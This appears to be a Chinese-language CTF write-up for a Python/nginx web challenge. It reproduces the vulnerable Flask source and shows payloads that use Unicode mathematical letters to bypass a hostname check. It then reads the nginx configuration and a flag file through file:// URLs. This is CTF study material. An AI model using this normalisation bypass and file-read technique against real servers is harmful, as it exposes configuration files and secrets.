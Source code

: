 ![[Pasted image 20221218131056.png|500]]

---
首页长这样

![[Pasted image 20221218140730.png|700]]

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form method="GET" action="[getUrl](view-source:http://8ff217ff-a7da-485a-a779-5fc0748bcc96.node4.buuoj.cn:81/getUrl)">
        URL:<input type="text" name="url"/>
        <input type="submit" value="Submit"/>
    </form>

    <code>
        
        @app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
</body>
</html>
```
字符是好东西（喜

上[数学字母数字符号](https://zh.wikipedia.org/zh-hans/%E6%95%B0%E5%AD%A6%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97%E7%AC%A6%E5%8F%B7)，更有多种变体任您选择

```python
url='http://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬'
```

![[Pasted image 20221218142130.png|700]]

标题和注释明示我们和`nginx`有关，尝试访问`/usr/local/nginx/conf/nginx.conf`
```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/local/nginx/conf/nginx.conf'
```

```nginx
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/fffffflag'
```

![[Pasted image 20221218144842.png]]

#Web #python #nginx #字符 